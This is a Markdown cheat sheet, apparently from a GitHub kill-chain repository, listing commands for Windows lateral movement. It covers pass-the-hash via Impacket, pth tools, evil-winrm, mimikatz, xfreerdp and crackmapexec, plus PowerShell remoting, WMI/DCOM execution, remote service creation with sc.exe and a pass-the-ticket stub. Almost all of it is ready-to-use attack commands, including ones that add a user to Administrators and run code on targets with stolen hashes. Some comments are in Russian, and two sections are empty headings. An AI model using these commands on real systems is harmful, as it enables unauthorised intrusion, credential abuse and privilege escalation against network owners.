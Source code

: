 ## Pass the Hash:  
**Impacket and pth**:  
1) psexec.py -hashes LM:NTLM admin@target  
2) wmiexec.py -hashes :NTLM admin@target  
3) pth-winexe -U admin% //target cmd  
4) pth-wmic -U admin% //target "select Name from Win32_UserAccount"  
5) pth-wmis -U admin% //target "cmd.exe /c whoami > c:\out.txt"
6) pth-smbclient -U admin% //target/c$
7) pth-rpcclient -U admin% //target
8) pth-sqsh -U admin -S target
9) pth-curl http://target/exec?cmd=ipconfig
10) pth-net rpc group ADDMEM 'Administrators' username -S target -U domain/user

**Evil-winrm**:  
evil-winrm -i target -u admin -H "NT hash value"

**Windows (mimikatz)**:  
mimikatz.exe securlsa::pth /user:username /domain:domain /ntlm:NTLM_HASH /run:cmd  

**RDP**:  
xfreerdp /u:<user> /d:domain /pth:hash /v:ipAddr 

**CME**:  
crackmapexec smb <IP> -u username -H ":NT hash value"  

## PowerShell-Remoting: 

Enter-PSSession -ComputerName <computername> -Credentials <domain>\username  

Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName <computername> -Credentials <domain>\username  

$session = New-PSSession -ComputerName <computer name> -verbose  
Enter-PSSession -Session $session -Verbose  
Invoke-Command -Session $session -ScriptBlock {whoami;hostname} -Verbose  

## REG.EXE:  
reg.exe; //Удаленный доступ к реестру с правами на запись на самом деле нам дает RCE.  
  
## DCERPC:  
Использует порты 135/TCP и 4915x/TCP, где 4915x — динамически назначаемые порты. Иногда могут использоваться порты из другого диапазона.  

1. wmiexec.py admin@target; //wmiexec.py -nooutput admin@target "mkdir c:\pwn".  
2. dcomexec.py admin@target; //dcomexec.py -nooutput admin@10.0.0.64 "mkdir c:\123".  
3. wmis -U admin //target "mkdir c:\pwn"/  
4. wmic.exe /user:username /password:password /node:target process call create '"c:\123".  
5. sc.exe; //Назначение инструмента — удаленное управление службами и драйверами. 
    - sc.exe \\target create testservice binPath= \path\to\prog start= auto  
    - sc.exe \\target start testservice  

## Pass the Ticket (Rubeus):  
**First step**: steal ticket [https://github.com/Kerkroups/Cyber-Kill-Chain/blob/main/Data%20Gathering%20-%20Credentials%20Theft.md#%D0%B8%D0%B7%D0%B2%D0%BB%D0%B5%D1%87%D0%B5%D0%BD%D0%B8%D0%B5-kerberos-tickest-rubeus]

## Overpass the Hash:  
  

## Token Impersonation:  
  
